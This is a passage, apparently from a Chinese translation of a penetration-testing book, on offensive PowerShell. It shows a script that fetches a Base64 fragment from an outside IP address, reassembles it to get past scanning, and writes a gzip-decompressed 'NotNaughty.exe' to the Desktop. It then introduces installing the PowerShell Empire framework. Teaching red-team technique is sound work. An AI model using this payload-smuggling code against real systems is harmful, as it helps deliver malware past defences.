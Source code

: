 图 9.12 – Google 发现了！

不用担心，因为这个聪明的扫描考虑了所有的二进制数据。剪掉几个字母，它就会变得混乱。再次强调，可能性仅受你的想象力限制，但想法是你创建一个由 Base64 代码片段组成的*拼图*，然后在接收端简单地连接起来。在我们的例子中，让我们从文本文件中剪掉前五个字符，然后将剩余字符发送到网络上。让我们来看一下：

Invoke-WebRequest -Uri "http://192.168.108.211:8000/sneaky.txt" -OutFile "fragment.txt"

$fragment = Get-Content -Path "fragment.txt"

$final = "H4sIA" + $fragment

$compressedFromb64 = [Convert]::FromBase64String($final)

$memoryStream = New-Object io.MemoryStream( , $compressedFromb64)

$compressStream = New-Object System.io.Compression.GZipStream($memoryStream, [io.Compression.CompressionMode]::Decompress)

$finalStream = New-Object io.MemoryStream

$compressStream.CopyTo($finalStream)

$DesktopPath = [Environment]::GetFolderPath("Desktop")

$TargetPath = $DesktopPath + "\NotNaughty.exe"

[IO.File]::WriteAllBytes($TargetPath, $finalStream.ToArray())

我们可以用更少的行数完成所有这些操作，但我将它们列出来，以便我们可以看到攻击的每个阶段。一旦我们的脚本提取了片段，我们只需连接缺失的部分并将其保存为`$final`。因此，`$final`现在包含以 EXE 格式的 Base64 编码、gzip 压缩的二进制代码。我们可以使用之前讨论过的相同方法反向操作，然后使用`WriteAllBytes`方法在我们这一端重新创建 EXE。将这个技巧与本书中之前讨论的恶意软件规避技术相结合，你就拥有了一个强大的渠道，可以将你的工具偷偷带入目标环境。

正如 Metasploit 中的一切都可以手动完成一样，幸运的是，我们在工具包中有一个框架，可以简化开发强大的 PowerShell 攻击的手动任务。让我们来看看 Empire 框架。

# Offensive PowerShell – 介绍 Empire 框架

我们能够坐在 Windows 机器前，通过 PowerShell 与操作系统如此紧密地互动，毫无疑问是 Windows 管理员的梦想成真。作为攻击者，我们看到的是精确制导导弹的各个部件，我们只需要时间去构建它。在渗透测试中，我们通常没有时间即时编写完美的 PowerShell 脚本，因此大多数渗透测试员都有一个装满自制脚本的“糖果袋”，用于执行某些任务。我使用的一个脚本，客户端一个接一个地运行，做的仅仅是扫描开放端口，并将 IP 地址转储到按开放端口命名的文件夹中的文本文件里。像这样的事情看起来平淡无奇，甚至有些无意义——直到你身处现场，意识到你已经节省了数十个小时。

高级安全专家会以这种方式看待像 Metasploit 这样的工具——它是一个框架，用于有组织、高效和整洁地传递工具，当内置的工具集无法满足需求时。在 PowerShell 的世界中，有一个框架自动化了引导和管理与目标的通信通道，以进行复杂的 PowerShell 攻击。欢迎来到 Empire。

## 安装并引入 PowerShell Empire

让我们通过动手实践来介绍 PowerShell Empire。安装非常简单，但首先我们需要更新 `apt`：

![图 9.13 – 在 Kali 上安装 PowerShell Empire](img/Figure_9.13_B17616.jpg)

图 9.13 – 在 Kali 上安装 PowerShell Empire

安装完成后，你可以通过以下命令启动团队服务器：

powershell-empire 服务器

没错——使用 PowerShell Empire 轻松进行红队攻击。注意 RESTful API 也托管在 `1337` 端口上——可以用你最喜欢的编程语言进行大量自动化，使你能够在有限的时间内从一台 PC 上完成多名攻击者的工作。
